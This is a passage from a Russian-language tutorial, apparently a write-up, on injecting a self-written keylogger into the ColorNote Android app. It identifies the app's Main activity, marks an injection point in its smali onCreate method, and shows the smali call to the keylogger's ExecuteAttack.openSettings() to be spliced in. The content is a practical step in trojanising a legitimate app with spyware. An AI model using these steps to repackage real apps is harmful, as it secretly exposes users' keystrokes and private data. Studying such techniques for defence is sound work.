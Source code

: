 ```MainActivity``` - нам нужен лишь для получения smali кода вызова основного метода.
	<action android:name="android.intent.action.VIEW"/>
	<action android:name="android.intent.action.EDIT"/>
	<action android:name="android.intent.action.PICK"/>
	<category android:name="android.intent.category.DEFAULT"/>
	<data android:mimeType="vnd.android.cursor.dir/vnd.socialnmobile.colornote.note"/>
    </intent-filter>
```

Видим нужный класс ```com.socialnmobile.colornote.activity.Main```. В нем ищем метод ```OnCreate()```. Видим промежуток между line 164 и line 172. Туда и будем внедрять вызов нашей функции.

```java
.method protected onCreate(Landroid/os/Bundle;)V
.locals 6

.prologue
const v2, 0x7f0800f9

const/4 v5, 0x0

const/4 v4, 0x1

.line 164
invoke-super {p0, p1}, Lcom/socialnmobile/colornote/activity/ThemeFragmentActivity;->onCreate(Landroid/os/Bundle;)V

<------------------------ //Внедряемся сюда

.line 172
invoke-virtual {p0, v4}, Lcom/socialnmobile/colornote/activity/Main;->d(I)V

.line 173
const v0, 0x7f0a0003
```

Мы написали кейлоггер так, чтобы было достаточно вызвать одну функцию ```openSettings()``` в классе ```ExecuteAttack```. Вызов этой функции у нас был в ```MainActivity```. Открываем smali версию этого класса.

```java
# virtual methods
.method protected onCreate(Landroid/os/Bundle;)V
.locals 0

.line 13
invoke-super {p0, p1}, Landroid/app/Activity;->onCreate(Landroid/os/Bundle;)V

const p1, 0x7f09001c

.line 14
invoke-virtual {p0, p1}, Lkz/c/keylogger/MainActivity;->setContentView(I)V

.line 15
invoke-static {p0}, Lkz/c/keylogger/ExecuteAttack;->openSettings(Landroid/content/Context;)V
// Нужная нам строка

return-void
.end method
```
